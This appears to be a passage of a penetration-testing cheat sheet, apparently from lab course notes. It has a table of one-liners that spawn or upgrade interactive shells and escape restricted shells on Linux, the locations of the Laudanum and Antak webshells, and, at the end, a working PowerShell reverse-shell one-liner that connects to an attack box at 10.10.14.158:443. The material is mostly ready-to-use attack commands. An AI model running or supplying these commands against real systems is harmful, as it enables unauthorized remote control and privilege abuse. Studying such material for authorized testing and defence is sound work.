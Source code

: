 | `python -c 'import pty; pty.spawn("/bin/sh")'`                                                      | Python command used to spawn an `interactive shell` on a linux-based system                                                                                                                             |
| `/bin/sh -i`                                                                                        | Spawns an interactive shell on a linux-based system                                                                                                                                                     |
| `perl —e 'exec "/bin/sh";'`                                                                         | Uses `perl` to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `ruby: exec "/bin/sh"`                                                                              | Uses `ruby` to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `Lua: os.execute('/bin/sh')`                                                                        | Uses `Lua` to spawn an interactive shell on a linux-based system                                                                                                                                        |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                   | Uses `awk` command to spawn an interactive shell on a linux-based system                                                                                                                                |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                             | Uses `find` command to spawn an interactive shell on a linux-based system                                                                                                                               |
| `find . -exec /bin/sh \; -quit`                                                                     | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system                                                                                                      |
| `vim -c ':!/bin/sh'`                                                                                | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |
| `ls -la <path/to/fileorbinary>`                                                                     | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |
| `sudo -l`                                                                                           | Displays the commands that the currently logged on user can run as `sudo`                                                                                                                               |
| `/usr/share/webshells/laudanum`                                                                     | Location of `laudanum webshells` on ParrotOS and Pwnbox                                                                                                                                                 |
| `/usr/share/nishang/Antak-WebShell`                                                                 | Location of `Antak-Webshell` on Parrot OS and Pwnbox                                                                                                                                                    |


Powershellone-liner utilisé pour se reconnecter à un écouteur qui a été démarré sur une boîte d'attaque:

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(`**'10.10.14.158',443**`);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(( $i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`